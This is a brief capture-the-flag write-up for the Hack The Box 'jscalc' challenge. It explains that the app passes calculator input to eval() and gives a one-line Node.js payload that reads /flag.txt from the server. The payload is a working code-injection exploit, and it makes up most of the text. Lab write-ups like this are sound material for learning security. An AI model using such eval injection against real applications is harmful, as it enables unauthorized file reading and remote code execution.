

# jscalc
> Challenge: [jscalc](https://app.hackthebox.com/challenges/jscalc)

## Summary
**XSS to RCE**
> Using eval() to do RCE

## Solution
Realizing that the input is evaluated by eval(), put this payload into the input:
```js
require("fs").readFileSync('/flag.txt').toString('utf-8')
```
